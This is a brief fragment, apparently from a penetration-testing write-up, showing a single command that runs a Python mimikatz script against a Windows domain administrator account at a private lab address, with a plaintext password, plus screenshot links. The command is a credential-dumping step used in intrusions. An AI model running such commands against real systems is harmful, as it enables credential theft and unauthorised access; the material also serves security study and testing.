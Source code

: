 ```bash
py -3 .\mimikatz.py test.com/administrator:1qaz@WSX@192.168.40.158
```

[![](assets/1702372846-6bd8893e19a02c04fc7fc18626138f57.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123733-b6d03d16-6bb1-1.png)
